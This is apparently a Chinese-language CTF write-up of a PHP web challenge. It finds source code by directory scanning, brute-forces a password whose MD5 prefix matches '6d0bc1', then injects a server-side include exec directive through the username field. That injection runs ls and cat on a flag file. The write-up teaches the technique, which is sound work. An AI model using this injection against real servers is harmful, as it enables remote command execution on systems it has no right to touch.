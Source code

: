 ![](<./img/Pasted image 20221217203306.png>)

---
首页长这样

![](<./img/Pasted image 20221217203322.png>)

为什么两个框框的`placeholder`都是`username`啊喂==

猜密码没猜中，快进到下一步

---
使用`dirsearch`扫目录

![](<./img/Pasted image 20221217205515.png>)
```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```
这个`***`不会是手残把墨水滴💾上造成的吧QwQ

---
先绕过第一个`if`
```python
from hashlib import md5

i = 0
while True:
    if md5(str(i).encode('utf-8')).hexdigest()[:6] == '6d0bc1':
        print(i)
        break
    i = i + 1
```

> 2020666

---
接下来服务端在`public`目录下面写入了一个随机名字的`shtml`文件

`[!] Header error ...`暗示要去看响应头

![](<./img/Pasted image 20221217213950.png>)

![](<./img/Pasted image 20221217214621.png>)

---
然后是`shtml`的[新知识](https://zh.wikipedia.org/zh-cn/%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%AB%AF%E5%86%85%E5%B5%8C)

总之就是可以利用这个
```
<!--#exec cmd="ls -l" -->
```
来执行命令

这里通过`username`注入
```shell
ls
```

![](<./img/Pasted image 20221217215146.png>)

```shell
ls ..
```

![](<./img/Pasted image 20221217215251.png>)

```shell
cat ../flag_990c66bf85a09c664f0b6741840499b2
```

![](<./img/Pasted image 20221217215409.png>)

#Web #PHP #HTTP #Header #RCE #SHTML #HTML #目录扫描 #md5 